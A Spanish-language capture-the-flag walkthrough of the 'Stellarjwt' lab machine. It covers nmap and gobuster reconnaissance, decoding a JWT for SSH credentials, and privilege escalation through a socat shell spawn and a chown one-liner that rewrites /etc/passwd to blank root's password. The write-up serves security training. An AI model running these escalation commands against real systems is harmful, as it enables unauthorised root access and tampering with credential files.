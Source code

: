 ```yaml
---
description: '✍️ Autor: Alv-fh🔍 Dificultad: Fácil  📅 Fecha de creación: 25/10/2024'
---
```


# Stellarjwt

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (807).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (20) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.&#x20;

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web sea algo de la NASA.&#x20;

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios y archivos con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,txt,php,xml
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Encontramos un directorio `/universe` que entramos en él.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Revisando el código fuente encontramos un fragmento interesante.

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Decodificamos esa cadena con esta [página](https://cyberchef.org/#recipe=JWT_Decode\(\)).

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos logueamos con ese usuario y con la contraseña **Gottfried**.

```bash
ssh neptuno@172.17.0.2
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. No tenemos permisos **SUDO**.

Listando los directorios tenemos un archivo oculto.

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que tenemos 3 usuarios y uno de ellos es la **nasa** asi que nos logueamos ya que la contraseña es **Eisenhower.**

<figure><img src="../../.gitbook/assets/image (966).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención **socat** por lo que buscamos en esta [página ](https://gtfobins.github.io/gtfobins/socat/)cómo explotarlo.

```bash
sudo -u elite /usr/bin/socat stdin exec:/bin/sh
```

<figure><img src="../../.gitbook/assets/image (969).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (970).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención **chown** por lo que buscamos en esta [página ](https://gtfobins.github.io/gtfobins/chown/)cómo explotarlo.

```bash
sudo chown elite:elite /etc/ && sudo chown elite:elite /etc/passwd && echo "$(cat /etc/passwd | sed 's/root:x:/root::/g')" > /etc/passwd && su
```

<figure><img src="../../.gitbook/assets/image (971).png" alt=""><figcaption></figcaption></figure>
